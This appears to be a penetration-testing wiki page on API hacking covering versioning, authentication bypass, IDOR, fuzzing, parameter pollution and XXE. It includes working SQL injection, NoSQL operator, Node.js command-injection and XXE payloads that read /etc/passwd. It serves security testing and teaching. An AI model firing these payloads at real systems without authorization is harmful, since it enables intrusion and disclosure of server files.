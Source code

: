 # API Hacking

An API (Application Programming Interface) is an interface within an application that specifies how the application can interact with other applications. In the case of web applications, it is what allows remote access to the functionality of back-end components. APIs are not unique to web applications and are used for software applications in general. Web APIs are typically accessed through the HTTP protocol and are usually managed and translated through web servers.

## Theory

{% content-ref url="theory-api-hacking.md" %}
[theory-api-hacking.md](theory-api-hacking.md)
{% endcontent-ref %}

## Practice

### 1. Obtain API documentation

This can be obtained by asking the API developers, or if it is a public API, we can use Google or search in tools like [Censys.io](http://censys.io) , [any-api.com](http://any-api.com) and [Virustotal.com](http://virustotal.com) that will be useful.

If it is not possible to get an API documentation (most of the time in CTFs and rarely in real life), we will have to play with it manually, applying fuzzing.

### 2. Change API Version

You can find different API versions manually by changing the version ID. Try changing the version from `v2` to `v1`. Observe the API behavior with different versions. The older version will be more vulnerable.

### 3. Broken Authentication

Most modern APIs use different **authentication methods** for the **mobile** and **web** APIs. Test both APIs differently and try to bypass the authentication method. Example : `/api/v3/login` and `/api/app/login`.

Also, try to perform user and password enumeration, depending on what the API allows.

Typically, some API endpoints will need more privileges than others. Always try to access the more privileged endpoints from less privileged (unauthorized) accounts to see if it is possible.

### 4. Injection

Testing for SQL, NoSQL and command injection. You can trick the interpreter to execute unwanted commands without proper authorization. Also test XSS, HTML injections (if we can see the result on the web page).

Example of some injections through an API:

```bash
GET /v1/users.php?format=json&username=test'+or+'1'='1'--+-&password=test '# Authentication bypass via SQLi
GET /v1/users.php?format=json&token=2121839ksdjabnsklatads'union+select+1,version(),3,4,5--+- '# SQLi
POST /api/books?cmd=require("child_process").exec('ping%20-c%201%2010.10.10.10') # Command injection (node.js)
```

### 5. IDOR

Always check the IDOR. Object-level authorization checks should be considered on all functions that access a data source using user input. It is important to do these checks as sometimes an application or certain resource is locked, but through the API we can "bypass" it.

### 6. Patterns

Look for API patterns inside the api and try to use it to discover more. If you find `/api/albums/<album_id>/photos/<photo_id>` you can also try things like `/api/posts/<post_id>/comment/`. Use some fuzzer to discover these new endpoints.

### 7. Fuzz parameters

We can add them manually or fuzz them:

```bash
ffuf -c -w /opt/SecLists/Discovery/Web-Content/api_endpoints.txt -u "<URL>/api/user?FUZZ=test"
ffuf -c -w /opt/SecLists/Discovery/Web-Content/api_endpoints.txt -u "<URL>/api/user?FUZZ=1"
ffuf -c -w /opt/SecLists/Discovery/Web-Content/api_endpoints.txt -u "<URL>/api/user?FUZZ="
```

{% hint style="info" %}
You can try to **use** parameters **you have seen** in a different endpoints to try to access other information.
{% endhint %}

### 8. Parameter pollution

```shell
/api/account?id=<your account id> # Normal.
/api/account?id=<your account id>&id=<admin's account id> # Modified.
```

### 9. Special chars

Try using the following symbols as wildcards: `*`, `%`, `_`, `.`:

```bash
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/api/users/FUZZ"
```

### 10. Request content-type

Try to play with the following **content types** (by modifying the request body) to make the web server behave unexpectedly:

```bash
x-www-form-urlencoded --> user=test
application/xml -->  <user>test</user>
application/json -->  {"user": "test"}
```

### 11. Parameters types

If JSON data is working, try sending unexpected data types like:

```bash
{"username": "John"}
{"username": true}
{"username": null}
{"username": 1}
{"username": [true]}
{"username": ["John", true]}
{"username": {"$neq": "lalala"}}
# Any other combination you can imagine.
```

If you can send XML data, check for XXE injections.

If you send normal POST data, try sending arrays and dictionaries:

```bash
username[]=John
username[$neq]=lalala
```

### 12. XML attacks

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's XML data processing. It often allows an attacker to view files on the application's server file system, and interact with any back-end or external systems that the application itself can access.

When testing the REST API try changing the content type to "`application/xml`" , add the XML request body and see how the request responds. If the error is XML based, you can try for XML entity attacks. Here is an example with a DTD statement:

```xml
PUT /v1/users.php?format=json
Content-Type: application/xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE data [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<updatepassword>
    <user>
        <username>&xxe;</username>
        <newpassword>attacker</newpassword>
        <cnfnewpassword>attacker</cnfnewpassword>
        <token>asdj134234jkdxba</token>
    </user>
</updatepassword>
```

However, DTD declarations are normally not allowed in user input. We can use CDATA tags to insert payloads (as long as the XML is valid). Example with SOAP API:

![](../../../.gitbook/assets/soap\_api\_cdata.png)

### 13. HTTP request method change

You can try to use HTTP GET, POST, PUT, DELETE, PATCH, INVENTED methods to try to check if the web server gives you unexpected information with them.

For example, if you found 3 parameters (**json**, **xml** and **id**) in an endpoint that parses XML, you can try to change the GET request to POST, trying to perform an XXE attack:

```xml
POST /api/useraname?xml HTTP/1.1
Host: 10.10.10.10

Content-Type: application/xml
Content-Length: 178

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<poc>
    <example>
    &xxe;
    </example>
</poc>
```

If it does not work, we can try to add to the POST content, the **remaining parameters** (**json** and **id**) by the **XML structure**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<poc>
    <json>test</json>
    <id>&xxe;</id>
</poc>
```

### 14. API misconfiguration

Check for misconfigured HTTP headers, unnecessary HTTP methods, permissive cross-origin resource sharing (CORS) and detailed error messages containing sensitive information.
